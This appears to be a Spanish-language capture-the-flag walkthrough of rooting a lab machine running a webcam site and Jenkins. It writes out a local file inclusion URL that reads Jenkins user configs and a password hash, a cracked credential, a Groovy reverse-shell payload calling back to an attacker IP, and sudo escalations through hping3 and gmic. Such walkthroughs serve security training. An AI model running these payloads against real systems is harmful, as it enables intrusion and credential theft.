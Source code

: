 Hacemos el escaneo con nmap:
![[Pasted image 20230926152610.png]]
Y esto corre en el puerto 80 y un jenkins en el 8080:
![[Pasted image 20230926152738.png]]
![[Pasted image 20230926152746.png]]
Si hacemos fuzzing al puerto 80 vemos el directorio /webcams:
![[Pasted image 20230926154219.png]]
Y tenemos esta web dentro del directorio webcams:
![[Pasted image 20230926154239.png]]
Dentro de estas webs podemos ver cómo es posible que podamos apuntar contra archivos internos de la máquina víctima:
![[Pasted image 20230926154607.png]]
Por tanto investigamos si en jenkins hay algún archivo donde podamos acceder y ver información sensible:
![[Pasted image 20230926154642.png]]
Y vemos que funciona:
```bash
view-source:http://192.168.0.76/webcams/includecam.php?cam=/var/lib/jenkins/users/users
```
![[Pasted image 20230926154732.png]]
![[Pasted image 20230926154740.png]]
```bash
andrew_15328478385288074167
```
Pero si añadimos config dentro de la url, podremos obtener la contraseña de este usuario:
```bash
view-source:http://192.168.0.80/webcams/includecam.php?cam=/var/lib/jenkins/users/andrew_15328478385288074167/config
```
![[Pasted image 20230928083820.png]]
Por tanto, nos copiamos este hash dentro de un archivo y lo crackeamos con john the ripper:
```bash
jbcrypt:$2a$10$V.wxGyfowdGEVLvpQt5DROedmKKUp11g922/V.tb1xmi8eYe7rmzu
```
![[Pasted image 20230928083919.png]]
Por tanto ya tenemos las siguientes credenciales para entrar dentro del panel de administración de jenkins:
```bash
andrew:andrew1
```
Y estamos dentro:
![[Pasted image 20230928084422.png]]
En este punto vamos a explotar una vulnerabilidad parecida a la máquina [[MAQUINA INTERNAL (wordpress wpscan, hydra http, portforwarding chisel y hacking jenkins en docker)]]:
![[Pasted image 20230928084558.png]]
Una vez aquí, pegamos el siguiente payload:
```bash
String host="10.8.100.91";
int port=444;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
![[Pasted image 20230928084619.png]]
Y con netcat habremos recibido la conexión:
![[Pasted image 20230928084640.png]]
Tenemos el usuario andrew:
![[Pasted image 20230928085317.png]]
Y vemos este permiso de sudo:
![[Pasted image 20230928085101.png]]
Y podemos convertirnos en el usuario andrew de la siguiente forma:
```
sudo -u andrew /usr/sbin/hping3
/bin/bash
```
![[Pasted image 20230928085418.png]]
Y volvemos a enumerar permisos de sudo:
![[Pasted image 20230928085529.png]]
Y esto es lo que hace ese binario gmic:
![[Pasted image 20230928085609.png]]
Y dentro del manual de instrucciones de esto, tenemos como ejecutar un comando con gmic:
```bash
https://fr.manpages.org/gmic
```
![[Pasted image 20230928085848.png]]
Por tanto, ejecutamos este comando y ya somos root:
```bash
sudo /usr/bin/gmic -exec bash
```
![[Pasted image 20230928085922.png]]
